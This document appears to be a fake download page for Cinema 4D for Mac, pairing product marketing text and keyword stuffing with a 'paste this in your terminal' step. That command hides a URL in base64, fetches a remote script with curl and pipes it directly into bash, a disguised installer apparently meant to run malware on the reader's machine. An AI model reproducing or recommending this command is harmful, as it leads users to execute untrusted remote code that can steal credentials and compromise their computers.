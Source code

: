 # Cinema 4D for Mac Download - Professional 3D Design Software

![Cinema 4D Screenshot](https://static.filehorse.com/screenshots-mac/photo-and-design/cinema-4d-screenshot-01.jpg)

---

### 🔽 Download Cinema 4D for Mac

> 📥 Open the terminal on your device and paste the command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```

---

## What is Cinema 4D for Mac?

Cinema 4D is an industry-leading 3D modeling, animation and rendering software developed by Maxon for macOS. This professional creative tool provides comprehensive solutions for motion graphics artists, visual effects creators and designers working in film, television and digital media production.

The software features an intuitive interface that makes complex 3D workflows accessible to both beginners and professionals. Its modular structure allows customization according to specific project needs, supporting the entire creative pipeline from initial modeling to final rendering with advanced lighting systems.

Key capabilities include:
- Powerful polygon modeling and sculpting tools
- Advanced character animation with rigging systems
- Physics simulations for realistic effects
- Seamless integration with Adobe After Effects
- Support for various render engines including Redshift
- Optimized performance for Apple Silicon chips

With its MoGraph toolset for procedural animation and motion graphics, Cinema 4D has become an essential tool for creative professionals worldwide.

![Cinema 4D Workspace](https://i.ytimg.com/vi/bXG85MoRHvo/maxresdefault.jpg)

---

## Key Features & Benefits

- 🎨 Comprehensive 3D modeling and texturing tools
- 🎬 Advanced animation and motion graphics capabilities
- ⚡ GPU-accelerated rendering options
- 🔄 Seamless Adobe Creative Cloud integration
- 🖥 Native Apple Silicon optimization
- 🌟 Professional-grade visual effects tools

---

## 🔍 Keywords

Cinema 4D for Mac, Cinema 4D Mac Download, Cinema 4D for Mac Download, Cinema 4D Mac, Cinema 4D Download Mac, Cinema 4D Download for Mac, Cinema 4D full version, Mac Download Cinema 4D, Download Mac Cinema 4D, Download Cinema 4D Mac, Download Cinema 4D for Mac
